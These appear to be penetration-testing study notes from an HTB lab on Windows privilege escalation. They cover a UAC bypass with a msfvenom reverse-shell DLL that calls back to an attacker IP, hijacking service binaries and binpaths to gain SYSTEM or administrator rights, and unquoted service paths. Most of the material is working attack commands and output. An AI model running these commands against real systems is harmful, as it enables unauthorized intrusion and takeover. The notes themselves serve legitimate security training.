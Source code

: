 # Attacking the OS

## **User Account Control**

[User Account Control (UAC)](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works) is a feature that enables a consent prompt for elevated activities.

Bypassing UAC

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

* `whoami /priv` → reviewing user privileges
* `C:\\htb> net localgroup administrators` → confirm we are admin group member.

```
C:\\htb> REG QUERY HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\ /v EnableLUA

HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System
    EnableLUA    REG_DWORD    0x1
```

**Confirming UAC is Enabled**

```powershell
PS C:\\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

Current build version of windows is `14393`

<figure><img src="../.gitbook/assets/Untitled (5).png" alt=""><figcaption></figcaption></figure>

looking at the github we can see technique number 54 matches.

This method targets  `SystemPropertiesAdvanced.exe`

Component is `srrstr.dll`

#### **Generating Malicious srrstr.dll DLL**

* `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll`

#### **Running the DLL**

* `C:\\htb> rundll32 shell32.dll,Control_RunDLL C:\\Users\\sarah\\AppData\\Local\\Microsoft\\WindowsApps\\srrstr.dll`

We should have a elevated shell that shows our privileges are available and can be enabled if needed.

## **Weak Permissions**

## **Permissive File System ACLs**

* `PS C:\\htb> .\\SharpUp.exe audit` → running  [SharpUp](https://github.com/GhostPack/SharpUp/) to check for service binaries suffering from weak ACLs.

```powershell
PS C:\\htb> .\\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\\Program Files (x86)\\PCProtect\\SecurityService.exe"

  <SNIP>

```

From the result we can see  `PC Security Management Service`, which executes the `SecurityService.exe` binary when started.

```powershell
PS C:\\htb> icacls "C:\\Program Files (x86)\\PCProtect\\SecurityService.exe"

C:\\Program Files (x86)\\PCProtect\\SecurityService.exe BUILTIN\\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\\SYSTEM:(I)(F)
                                                     BUILTIN\\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Using [icacls](https://ss64.com/nt/icacls.html) we can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\\Users` groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

```
C:\\htb> cmd /c copy /Y SecurityService.exe "C:\\Program Files (x86)\\PCProtect\\SecurityService.exe"
C:\\htb> sc start SecurityService
```

now we can replace original binary with malicious binary generated with msfvenom and get reverse shell as SYSTEM.

## **Weak Service Permissions**

```
C:\\htb> SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

=== Modifiable Services ===

  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\\Program Files (x86)\\Windscribe\\WindscribeService.exe"
```

Looking at the sharpup result we can see WindscribeService has modifiable service.

#### **Checking Permissions with** [**AccessChk**](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

```
C:\\htb> accesschk.exe /accepteula -quvcw WindscribeService

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\\Authenticated Users
        SERVICE_ALL_ACCESS
```

from the output we can see, Authenticate Users (i.e all the users accounts that have been authenticated) have Read and Write Permission

lets query the service

```bash
C:\\htb> sc qc WindscribeService
```

Then change the Service Binary Path

```
C:\\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

then stop and start the service as:

* `C:\\htb> sc stop WindscribeService`
* `C:\\htb> sc start WindscribeService`

looking at the groups, we can see we are added

* `C:\\htb> net localgroup administrators`

## **Unquoted Service Path**

`C:\\Program Files (x86)\\System Explorer\\service\\SystemExplorerService64.exe`

if quote is not present, the order of execution occurs as;

* `C:\\Program`
* `C:\\Program Files`
* `C:\\Program Files (x86)\\System`
* `C:\\Program Files (x86)\\System Explorer\\service\\SystemExplorerService64`

So, if we have access to any of the folder before the actual exe file is present, we can add malicious code there.

* C:\Program.exe → we rename our malicious exe to program.exe and put it in C: drive

We can search for Unquoted Service using `PowerUp.ps1` ‣

* `Import-Module .\\PowerUp.ps1`
* `Get-UnquotedService`

or we can search manually using this command

```
C:\\htb> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\\windows\\\\" | findstr /i /v """
GVFS.Service                                                                        GVFS.Service                              C:\\Program Files\\GVFS\\GVFS.Service.exe                                                 Auto
System Explorer Service                                                             SystemExplorerHelpService                 C:\\Program Files (x86)\\System Explorer\\service\\SystemExplorerService64.exe             Auto
WindscribeService                                                                   WindscribeService                         C:\\Program Files (x86)\\Windscribe\\WindscribeService.exe                                  Auto
```

## **Vulnerable Services**

search for the installed apps and look for app/services that stands out. Search if the service/app is vulnerable to some kind of exploit

## **Kernel Exploit**

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

